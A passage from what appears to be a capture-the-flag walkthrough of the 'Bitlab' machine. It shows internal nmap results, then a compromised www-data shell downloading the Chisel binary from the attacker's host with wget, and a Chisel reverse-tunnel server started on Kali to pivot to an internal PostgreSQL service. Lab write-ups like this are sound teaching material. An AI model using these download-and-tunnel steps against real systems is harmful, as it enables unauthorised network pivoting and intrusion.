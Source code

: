     Nmap scan report for 172.19.0.4
    Host is up (0.00047s latency).
    All 1000 scanned ports on 172.19.0.4 are closed

    Nmap scan report for 172.19.0.5
    Host is up (0.00018s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    5432/tcp open  postgresql

    Nmap done: 4 IP addresses (4 hosts up) scanned in 0.20 seconds



.2 and .3 are candidates to be Gitlab, and the postgres host is .5.

I also see that the local box is listening on 5432. This is a forward
into the postgres container, so I can talk to either.

### Tunneling

I want to check the database, but `psql` isn't on the box. I did some
testing, and it looks like the firewall is blocking any incoming ports
that aren't meant to be up, so I can't just use `socat` to create a
tunnel. I'll upload [Chisel](https://github.com/jpillora/chisel), my [go
to for this kind of
thing](/tunneling-with-chisel-and-ssf-update.md). I'll
upload it:



    www-data@bitlab:/dev/shm$ wget 10.10.14.30/chisel
    --2019-09-08 15:53:50--  http://10.10.14.30/chisel
    Connecting to 10.10.14.30:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 10459399 (10.0M) [application/octet-stream]
    Saving to: 'chisel'

    chisel                                                 100%[============================================================================================================================>]   9.97M   260KB/s    in 30s     

    2019-09-08 15:54:20 (337 KB/s) - 'chisel' saved [10459399/10459399]

    www-data@bitlab:/dev/shm$ chmod +x chisel



Now I'll start the server on my host with the `--reverse` option so that
I can create a reverse tunnel:



    root@kali:/opt/chisel# ./chisel server -p 8000 --reverse
    2019/09/08 11:56:39 server: Reverse tunnelling enabled
    2019/09/08 11:56:39 server: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
    2019/09/08 11:56:39 server: Listening on 0.0.0.0:8000...



Now I'll have the client on Bitlab connect to the server, and specify
that I want a reverse tunnel to listen on 5432 on my host and have that
connect to 5432 on localhost:
